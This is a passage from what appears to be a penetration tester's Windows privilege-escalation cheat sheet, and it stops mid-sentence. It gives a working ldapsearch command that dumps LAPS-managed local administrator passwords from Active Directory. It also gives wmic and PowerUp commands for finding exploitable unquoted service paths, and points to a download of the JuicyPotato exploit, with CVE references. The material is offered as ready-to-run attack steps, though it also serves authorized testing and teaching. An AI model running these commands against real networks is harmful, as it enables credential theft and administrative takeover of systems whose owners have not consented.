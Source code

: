 Is LAPS installed? Dump admin’s password.

[https://www.hackingarticles.in/credential-dumpinglaps/](https://www.hackingarticles.in/credential-dumpinglaps/)

[https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/](https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/)

```bash
ldapsearch -x -h $ip -D \          
"$domain\$username" -w '$password' -b "dc=$subdomain1,dc=$subdomain2" \
"(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

Updated command

```bash
ldapsearch -x -H "ldap://$ip" -D "DOMAIN\user" -w 'password' -b "dc=DOMAIN,dc=COM" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

### Search for Unquoted Services

```bash
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```bash
Import-Module .\PowerUp.ps1
Get-UnquotedService
```

[https://www.exploitblizzard.com/post/windows-privilege-escalation-exploiting-unquoted-service-path](https://www.exploitblizzard.com/post/windows-privilege-escalation-exploiting-unquoted-service-path)

[https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

[https://www.hackhappy.org/2018/04/18/windows-privilege-escalation-with-unquoted-services/](https://www.hackhappy.org/2018/04/18/windows-privilege-escalation-with-unquoted-services/)

### JuicyPotato all you need

<aside>
💡 Windows Server 2008, Windows 7, Windows Server 2008 R2 with SeImpersonatePrivilege might be vulnerable to JuicyPotato, CVE-2011-1249, CVE-2018-8120.

</aside>

Grab **JuicyPotato.exe** here:

[https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

If error, use random CLSD from
